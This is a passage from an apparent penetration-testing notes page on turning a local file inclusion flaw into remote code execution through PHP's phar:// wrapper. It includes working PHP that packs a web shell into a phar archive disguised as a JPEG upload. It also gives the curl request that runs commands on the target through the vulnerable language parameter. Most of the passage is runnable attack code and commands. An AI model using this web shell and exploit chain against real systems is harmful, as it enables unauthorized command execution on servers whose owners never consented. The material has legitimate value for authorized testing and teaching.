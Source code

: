 ### Phar

We can also use the `phar://` wrapper to achieve RCE. The script below can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which can be accessed using `/`.

{% code title="shell.php" %}
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
{% endcode %}

{% code overflow="wrap" %}
```shell
# Compiling the script into a phar file called 'shell.jpg'
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
# Upload -> RCE (URL-encode '/' -> %2F)
curl http://<ip:port>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
{% endcode %}

There is another obsolete LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP config and the `phpinfo()` page is somehow exposed to us. This attack has very specific requirements to work: LFI + uploads enabled + old PHP + exposed `phpinfo()`. You can find more info [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).
